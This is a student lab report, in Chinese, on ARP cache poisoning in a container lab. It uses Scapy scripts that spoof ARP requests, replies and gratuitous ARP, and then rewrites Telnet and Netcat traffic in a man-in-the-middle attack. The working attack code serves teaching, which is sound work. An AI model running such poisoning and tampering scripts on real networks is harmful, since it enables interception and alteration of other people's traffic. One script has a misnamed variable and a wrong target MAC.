

# Lab 2 ARP缓存中毒攻击实验

Course: 网络安全原理与实践
Lesson Date: 2026年3月12日
Status: Complete
Type: Lab

---

# 任务 1：ARP缓存中毒攻击

我们首先需要查看三台容器的具体MAC地址，执行`ifconfig` 得到结果分别如下（依次为攻击者容器M，容器A，容器B）




我们进行初始的配置来简化后续代码

```verilog
#!/usr/bin/python3 
from scapy.all import * 
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"
```

## 任务 1.A（使用ARP请求）

我们的攻击逻辑是从M发给A一个假装由B发出的ARP请求包，这样由于A需要对该请求进行ARP回复，那么A的缓存中会记录该信息，我们构造的核心代码如下：

```python
ether = Ether(dst=A_mac)
arp   = ARP(psrc=B_ip, hwsrc=M_mac,pdst=A_ip,hwdst=A_mac,op=1)
frame  = ether/arp
sendp(frame)
```

运行后可以在A容器中查看，可以看到成功将B的IP映射到M的MAC上，完成攻击


这里对于`Ether()` 做一个说明，其作用是构造以太网层的帧头，在我们这次攻击中因为只需要欺骗A一台机器所以指定了目标MAC（事实上如果写成广播地址的话也是可行的，依然只有预期接收者会进行缓存）；对于源MAC，事实上其不会影响ARP表的更新，其更新依然依赖于`psrc`以及`hwsrc` ，如果想要攻击更为真实（一些防御机制会做检测），那么一并指定即可

## 任务 1.B（使用ARP响应）

### 情景 1 B 的 IP 地址已经存在于 A 的缓存中

我们可以先用ping操作让A得到正确的MAC地址，可以看到A中此时拿到正确的B的MAC地址


我们此时再实行攻击，把上述代码中的`op`修改为2变成响应包即可，运行代码并查看结果


可以看到原有的记录被修改

### 情景 2 B 的 IP 地址未出现在 A 的缓存中。你可以使用命令 "arp -d a.b.c.d" 来删除 IP 地址 a.b.c.d 对应的 ARP 缓存条目

我们执行`arp -d 10.9.0.6` 删除记录，重新执行攻击，发现攻击并没有成功，在A中未出现对应的记录。这是因为我们的操作系统采用的ARP协议并非完全无认证，其预期当收到一个ARP回应前，自身应该已经发送过对于该IP的ARP请求，即我们伪造的条目由于在其缓存中没有记录，并不会做新增条目的更新操作（更具体来讲，当ARP发出请求时，会增加一条MAC地址为incomplete的条目等待收到回应后进行填充，效果如下）


## 任务 1.C（使用ARP免费消息）

我们的代码实现中对于**gratuitous arp**有两个关键点，即`psrc=pdst`，同时`dst=ff:ff:ff:ff:ff:ff`，我们重新进行构造核心代码如下

```python
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
arp   = ARP(psrc=B_ip, hwsrc=M_mac,pdst=B_ip,hwdst="ff:ff:ff:ff:ff:ff",op=2)
frame  = ether/arp
sendp(frame)
```

得到的结果和上文具有一致性，即如果有这样的条目则更新，没有则不更新；需要注意的是，免费arp包作为广播包，网络中的所有主机（存有该ip条目）都应该被影响，但是攻击者机器发送的包不会被自己的网络协议栈重新接收处理，具体效果如下（我们修改`src`和`dst`为10.9.0.7并发动攻击，在ping过该地址的容器A，B都可以看到地址被更新了）


# 任务2：使用ARP缓存中毒攻击在Telnet实施中间人攻击

## 步骤1 发起ARP缓存中毒攻击

我们修改代码如下，来保证5s发送一次伪造映射

```python
eterA = Ether(src=M_mac,dst=A_mac) 
arpA = ARP(hwsrc=M_mac, psrc=B_ip,
           hwdst=A_mac, pdst=A_ip,
           op=2) 
etherB = Ether(src=M_mac,dst=B_mac) 
arpB = ARP(hwsrc=M_mac, psrc=A_ip,
           hwdst=A_mac, pdst=B_ip,
           op=2) 
pktA=etherA/arpA
pktB=etherB/arpB
while True:
    sendp(pktA, verbose=0)
    sendp(pktB, verbose=0)
    time.sleep(5)
```

检查容器A，B的缓存，可以发现均中毒


## 步骤2 测试

我们执行`sysctl net.ipv4.ip_forward=0` 关闭M的IP转发，并使主机A，B互相ping，发现是ping不通的，wireshark中也可以看到该结果（no response）


## 步骤3 开启IP转发

我们在主机M上开启转发并重新进行互相的ping（注意这里必须提前清空缓存），可以发现ping成功了


我们在wireshark中查看得到的结果是一致的


## 步骤4 实施中间人攻击

在客户端A通过`telnet 10.9.0.6`成功建立连接后关闭转发，这时候发现屏幕不显示字符，这是因为输入需要通过发送给服务器B，服务器回显，才会在客户端显示；当M停止转发后，数据包被B拦截因此不会回显字符

为了进行伪造数据包来出现错误的显示，我们完成如下脚本来实现中间攻击

```python
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
IP_B = "10.9.0.6"
IP_M = "10.9.0.105"

def spoof_pkt(pkt):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del(newpkt.chksum)
            del(newpkt[TCP].payload)
            del(newpkt[TCP].chksum)
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                newdata = b'Z' * len(data)
                send(newpkt/newdata)
            else:
                send(newpkt)
        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del(newpkt.chksum)
            del(newpkt[TCP].chksum)
            send(newpkt)
filter = "tcp and not src host " + IP_M
sniff(iface="eth0", filter=filter, prn=spoof_pkt)
```

这个脚本会对于A到B的数据包进行替换，全部生成等长度的Z，同时对于过滤器进行修改来保证不会捕获自身生成的数据包，我们在A上尝试打任意字符，可以看到只会有一串Z显示，根本原因是telnet采用明文传输，这使得伪造变得容易


这里如果我们尝试在B上telnet连接A，我们会神奇的发现输出同样被修改了，这是因为尽管B到A的数据包未被修改，但是回显时同样经过M导致被修改，我们实现的攻击实际是双向的

# 任务3：使用ARP缓存中毒攻击在Netcat实施中间人攻击

我们在主机 B上运行以下命令`nc -lp 9090`，在主机 A（客户端）上运行以下命令：`nc 10.9.0.6 9090` 如图在开启转发时B应该能正确显示A输入的内容


我们对于代码进行微调，实际只修改了伪造的数据部分，为了不扰乱TCP序列号，将信息中我的姓（拼音）替换为一串长度相同的 A，在取消转发后重新进行运行（注意中毒攻击始终在进行）

```python
#!/usr/bin/env python3
from scapy.all import *
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"
IP_M = "10.9.0.105"
surname=b"SONG"
replace=b"A"*len(surname)
def spoof_pkt(pkt):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del(newpkt.chksum)
            del(newpkt[TCP].payload)
            del(newpkt[TCP].chksum)
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                newdata = data.replace(surname,replace)
                send(newpkt/newdata)
            else:
                send(newpkt)
        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del(newpkt.chksum)
            del(newpkt[TCP].chksum)
            send(newpkt)
filter = "tcp and not src host " + IP_M
sniff(iface="eth0", filter=filter, prn=spoof_pkt)
```

可以看到替换是成功的，下面展示了在服务器端A的输入和在服务器端B的输出，对于含有需要替换字符串（根据要求使用了我的姓）的不同输入都被成功修改攻击


